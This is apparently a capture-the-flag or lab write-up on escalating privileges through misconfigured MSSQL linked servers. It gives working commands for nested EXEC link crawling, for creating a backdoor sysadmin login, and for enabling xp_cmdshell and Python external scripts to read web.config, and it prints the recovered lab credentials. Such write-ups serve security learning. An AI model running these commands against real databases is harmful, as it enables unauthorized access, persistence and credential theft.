 ```yaml
---
title: Abusing MSSQL Linked Servers [ Adding sa user & File Read ]
author: r0b0tG4nG
date: 2021-12-16 10:18:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, python , xp_cmdshell, sp_execute_external_script]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/146367126-2c4334c7-4664-4581-9ab7-bcc2b0d9da0b.png)<br><br>


**> Information Gathering**<br>

Microsoft SQL Server is a <a href="https://en.wikipedia.org/wiki/Relational_database_management_system">relational database management system</a> developed by <a href="https://en.wikipedia.org/wiki/Microsoft">Microsoft</a>. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).<br>

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library. More Information can be found at <a href="https://github.com/SecureAuthCorp/impacket">
SecureAuth Corporation</a><br>

In this engagement, we will use <a href="https://github.com/SecureAuthCorp/impacket/blob/impacket_0_9_24/examples/mssqlclient.py">Impacket-mssqlclient.py</a> script. First we will login to the mssql service using the `mssql-client.py`, to do this we will parse the database credentials and ip as agruments to the `mssql-client.py` script. `impacket-mssqlclient external_user:"#p00Public3xt3rnalUs3r#"@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365268-90142593-59e6-4a33-8d10-1f6d3286ea9b.png)<br>

After logging in to the mssql database, we will haev to check if the user has sysadmin privileges on the databases. This can be done by querying the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql?view=sql-server-ver15">syslogins table</a> using the command `SELECT name,sysadmin from syslogins;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365388-6c93e881-bde7-493d-842c-d4423239c15d.png)<br>

The database has two users `sa` & `external_user`. From the output, we can see the current user doesn't have `sysadmin privileges`, which means we can't use <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15">xp_cmdshell</a> to execute OS commands. We can check this by trying to enable `xp_cmdshell`<br>
![image](https://user-images.githubusercontent.com/67085453/146365484-c895eebc-9914-4b07-8b40-5c2e1cd12635.png)<br>

Microsoft SQL servers provides the ability to link external resources such as Oracle databases and other SQL servers. This is common to find in domain environments and can be exploited in case of misconfigurations. To verify if there are any linked servers on the current database, we will have to query the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql?view=sql-server-ver15">sysservers table</a> by executing the command `select srvname,isremote from sysservers;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365758-f02ba0e1-f680-487e-8edd-3302e1026288.png)<br>

Quering the table displayed two entries: `POO_PUBLIC (current server)` and `POO_CONFIG`. According to the documentation, `isremote column` determines if a server is linked or not. The `value 1` stands for `remote server`, while the value `0 stands for a linked server`. From this, we can conclude that `POO_CONFIG` is a linked server.<br>

From the docs, `EXEC` statement can be used to execute queries on linked servers. The next step is to find out the user in whose context we will be able to query the linked server. To do this, we will type `EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];`<br>
![image](https://user-images.githubusercontent.com/67085453/146365942-3a17d65c-fa93-457b-b35e-8c9486a698e5.png)<br>

The queries on the linked server `POO_CONFIG` are running as `internal_user`. To do greater damage, in this scenario, we will need the permissions of the `sa` user, so its best to check is the `internal_user` is `sa` on the targett or has `sa` privileges assigned to this user. To do this, we will execute the commmand `EXECUTE ('SELECT name,sysadmin from syslogins;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366041-0c7e6ba7-4f7f-4d23-9751-e64b5f691fcc.png)<br>

Bad luck on our side, the user `internal_user` is also not a `sysadmin` on the target. That is not the end remember this target has linked databases so we can try to enumerate the `POO_CONFIG` server to see if it has more links. We can recon on more links using `EXECUTE ('select srvname,isremote from sysservers;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366129-93d9a1e9-7d5a-4ad1-bdc9-c266f4e62d5e.png)<br>



**> Adding SA User**<br>

From the image above, we can see that `POO_CONFIG` is in turn linked to `POO_PUBLIC`, making it a circular link. This is good news to the eyes since we can use nested queries to find out what user we're running as. Let's execute this command `EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366345-e90d8172-c3a7-4b0c-850f-1a1553ccae17.png)<br>

A nested `EXEC statement` is used to find the username after crawling back from the `POO_CONFIG link`. The query returned `sa`, which means that the link allows us to execute queries as the `sysadmin user` on our current database `POO_PUBLIC`. The diagram below shows how the links are crawled in order to attain `sa privileges`. We can use these privileges to change the `sa password` on `POO_PUBLIC`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366439-f55a6706-98fe-4852-89c1-ce94c45b4d8e.png)<br>

With this information, we can add a new `sa user` to the `POO_PUBLIC` database using a nested query. We will add a new SQL user named `r0b0t` with the password `P@ssword123` . The `r0b0t` user will be granted `sysadmin level privileges`. To avoid errors, we all single quotes should be escaped with another quote.<br>

We now add the `r0b0t` user and also grant him the `sysadmin privileges`. To achieve this, we will use the following commands. <br> 
`EXECUTE('EXECUTE(''CREATE LOGIN r0b0t WITH PASSWORD = ''''P@ssword123'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG" `<br>
`EXECUTE('EXECUTE(''sp_addsrvrolemember ''''r0b0t'''' , ''''sysadmin'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG"`<br>
![image](https://user-images.githubusercontent.com/67085453/146366521-20ad5699-cced-436f-a8ba-643acd48d2b9.png)<br>

The command was executed successfully without any errors. We can login to the `mssql` database using the username `r0b0t` & password `P@ssword123`. To achieve this, we will need `impacket-mssqlclient` script with the argument `impacket-mssqlclient r0b0t:'P@ssword123'@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366926-91d93953-d63f-431f-acb4-305e1f275077.png)<br>


**> File Read Using sp_execute_external_script**<br>

After a successful login with the `r0b0t` user credentials, we know this user has `sysadmin-level` privileges thus can enable and execute system commands using the `xp_cmdshell` stored procedure. To enable `xp_cmdshell` in `mssqlcient.py`, we will use the command `enable_xp_cmdshell` and install the new configuration using `RECONFIGURE`.We can test code execution using the command `xp_cmdshell whoami`.<br>
![image](https://user-images.githubusercontent.com/67085453/146375130-72777aea-8a3a-4a93-91ab-7a3bebc1a2e6.png)<br>

The SQL Server service found to be running as a standard service account. The `IIS web.config` file mostly contains credentials. Our main target now is to grab the contents of this file. We can siimply do this using `xp_cmdshell icacls c:\inetpub\wwwroot\web.config`.<br>
![image](https://user-images.githubusercontent.com/67085453/146375013-823bec14-6cc3-4170-a2e4-bd60f15c312e.png)<br>

Looks like we do not have permissions to read that file. What could be the problem? `icacls` is blocked on the target or we just lack permissions. So i tried to read other files on the target using the command `xp_cmdshell icacls c:\windows\system32\drivers\etc\hosts`.<br>
![image](https://user-images.githubusercontent.com/67085453/146374700-0a784fe4-ceb3-47bf-8a74-e75e8bd3fdb7.png)<br>

So `icacls` works perfect all we need is to find a new way to read files on the target through `mssql`. After digging around, i found out that there is an `SQL Server feature` called <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a>. This stored procedure allows us to execute external scripts written in `Ruby` or `Python`. So first we have to enable this procedure to test some python codes. To enable this feature, we will use the command `EXEC sp_configure 'external scripts enabled', 1` and install this configuration with the command `RECONFFIGURE`.<br> 
![image](https://user-images.githubusercontent.com/67085453/146375288-30077f0f-80f1-4d9b-8d1e-d6c58acd17e6.png)<br>

With the feature enabled, We will build our external script using the python sample located at <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a> main page. For test purposes, we will look at executing an `external python script` to print out a text on our screen using the command `EXEC sp_execute_external_script @language = N'Python', @script = N'print( "r0b0t Test Print" );';`<br>
![image](https://user-images.githubusercontent.com/67085453/146374831-be485bc8-96a8-4b84-9363-79f30bb30f22.png)<br>

Our external python script works good the next thing we have to do is to read the `web.config` file from `c:\inetpub\wwwroot\` directory. To do this, we will import python `os module` and execute the command `EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("type C:\inetpub\wwwroot\web.config");';`<br>
![image](https://user-images.githubusercontent.com/67085453/146374932-be5d8c9c-eea8-4bee-b2d6-6513b4175c6a.png)<br>

Hehehee guess what?? we did it. We are able to read files on the target using `external python scripts`. Fruits of the hunt?? we actually found the credentials in the `web.config` file.
```web.config
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
```

